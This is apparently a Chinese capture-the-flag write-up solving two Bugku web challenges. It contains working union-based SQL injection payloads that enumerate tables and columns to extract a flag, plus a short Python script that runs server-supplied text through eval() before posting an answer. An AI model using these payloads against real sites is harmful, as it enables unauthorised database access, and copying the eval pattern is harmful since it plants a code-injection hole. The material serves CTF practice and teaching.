 # 包振丰
## http://123.206.87.240:8002/chengjidan/ --> BUGKU{Sql_INJECT0N_4813drd8hz4}
* 分别输入1，2，3可以得知当前表有4个字段
![alt](TIM截图20190708203938.png#pic_center)
* 输入 **-1' union select 1,2,3,4#**，和预期的一样
![alt](2.png#pic_center)
* 接着输入 **-1' union select 1,GROUP_CONCAT(table_name),3,4 from information_schema.tables where table_schema=database()#**,发现表名是 **fl4g**和 **sc**
![alt](3.png#pic_center)
* 试一下 **fl4g**，输入 **-1' union select 1,GROUP_CONCAT(column_name),3,4 from information_schema.columns where table_name="fl4g"#**，发现字段名 **skctf_flag**
![alt](4.png#pic_center)
* 最后输入 **-1' union select 1,skctf_flag,3,4 from fl4g#**，得到答案 **BUGKU{Sql_INJECT0N_4813drd8hz4}**
![alt](5.png#pic_center)
## http://123.206.87.240:8002/qiumingshan/ --> Bugku{YOU_DID_IT_BY_SECOND}
* 两秒内人算肯定算不了，所以需要一个脚本来计算并将结果post回去,这里写了个python脚本
```python
import requests
s=requests.session()
rsp=s.get('http://123.206.87.240:8002/qiumingshan/')
a=s.get('http://123.206.87.240:8002/qiumingshan/').text.split(' ')
b=a[5].split("=")
data={'value':eval(b[0])}
rsp2=s.post('http://123.206.87.240:8002/qiumingshan/', data=data)
print(rsp2.text)
```
* 拿到并打印响应内容，发现答案 **Bugku{YOU_DID_IT_BY_SECOND}**
![alt](6.png#pic_center)